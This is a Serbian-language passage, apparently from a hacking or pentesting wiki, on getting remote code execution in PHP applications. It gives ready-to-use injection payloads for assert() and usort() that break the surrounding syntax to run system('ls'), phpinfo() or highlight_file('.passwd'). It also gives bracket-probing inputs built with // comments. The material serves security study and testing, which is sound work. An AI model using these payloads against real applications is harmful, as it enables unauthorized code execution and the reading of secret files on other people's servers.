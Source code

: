 ### **RCE putem Assert()**

Ova funkcija u php-u vam omogućava da **izvršite kod koji je napisan u stringu** kako biste **vratili tačno ili netačno** (i u zavisnosti od toga promenili izvršenje). Obično će korisnička promenljiva biti umetnuta usred stringa. Na primer:\
`assert("strpos($_GET['page']),'..') === false")` --> U ovom slučaju da biste dobili **RCE**, možete uraditi:

```
?page=a','NeVeR') === false and system('ls') and strpos('a
```

Potrebno je **prekinuti** sintaksu koda, **dodati** svoj **payload**, a zatim je ponovo **popraviti**. Možete koristiti **logičke operacije** poput "**and**" ili "%26%26" ili "|". Imajte na umu da "or", "||" neće raditi jer ako je prvi uslov tačan, naš payload neće biti izvršen. Isto tako, ";" neće raditi jer naš payload neće biti izvršen.

**Druga opcija** je dodati izvršenje komande u string: `'.highlight_file('.passwd').'`

**Druga opcija** (ako imate interni kod) je izmeniti neku promenljivu kako biste promenili izvršenje: `$file = "hola"`

### **RCE putem usort()**

Ova funkcija se koristi za sortiranje niza stavki pomoću određene funkcije.\
Da biste zloupotrebili ovu funkciju:

```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
usort();}phpinfo;#, "cmp");
}?>
```

### **Komentarisanje koda**

Takođe možete koristiti **//** da biste komentarisali ostatak koda.

Da biste otkrili broj zagrada koje treba zatvoriti:

* `?order=id;}//`: dobijamo poruku o grešci (`Parse error: syntax error, unexpected ';'`). Verovatno nedostaje jedna ili više zagrada.
* `?order=id);}//`: dobijamo **upozorenje**. To deluje ispravno.
* `?order=id));}//`: dobijamo poruku o grešci (`Parse error: syntax error, unexpected ')' i`). Verovatno imamo previše zatvorenih zagrada.
